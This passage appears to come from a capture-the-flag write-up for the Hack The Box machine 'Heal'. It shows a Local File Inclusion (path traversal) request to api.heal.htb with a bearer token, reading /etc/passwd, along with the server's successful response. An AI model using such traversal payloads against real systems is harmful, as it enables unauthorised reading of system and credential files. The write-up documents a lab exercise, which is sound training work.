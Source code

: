 ![](images/2024-12-14_20-35_80_request_export.png)

```c
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ
```

Then we prepared our `Local File Inclusion (LFI)` payload to read `/etc/passwd` and it worked!

```c
GET /download?filename=../../../../../etc/passwd  HTTP/1.1
Host: api.heal.htb
Accept: */*
Access-Control-Request-Method: GET
Access-Control-Request-Headers: authorization
Origin: http://heal.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Sec-Fetch-Mode: cors
Referer: http://heal.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ


```

```c
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 14 Dec 2024 19:33:52 GMT
Content-Type: application/octet-stream
Content-Length: 2120
Connection: keep-alive
access-control-allow-origin: http://heal.htb
access-control-allow-methods: GET, POST, PUT, PATCH, DELETE, OPTIONS, HEAD
access-control-expose-headers: 
access-control-max-age: 7200
x-frame-options: SAMEORIGIN
x-xss-protection: 0
x-content-type-options: nosniff
x-permitted-cross-domain-policies: none
referrer-policy: strict-origin-when-cross-origin
content-disposition: attachment; filename="passwd"; filename*=UTF-8''passwd
```
